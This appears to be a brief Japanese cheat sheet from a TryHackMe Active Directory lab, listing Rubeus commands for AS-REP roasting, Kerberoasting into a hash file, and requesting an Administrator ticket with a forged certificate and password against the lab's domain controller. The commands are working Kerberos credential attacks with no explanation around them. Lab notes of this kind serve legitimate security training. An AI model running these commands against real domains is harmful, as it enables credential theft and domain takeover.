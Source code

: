### AS-REPロースト
```sh
.\Rubeus.exe asreproast /nowrap
```

### ケルベロースト
```sh
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

```sh
# 作った証明書を使ってTGTリクエスト送信
Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:fulladmin.pfx /password:Password123 /outfile:fulladmin.kirbi /domain:za.tryhackme.loc /dc:10.200.61.101
```
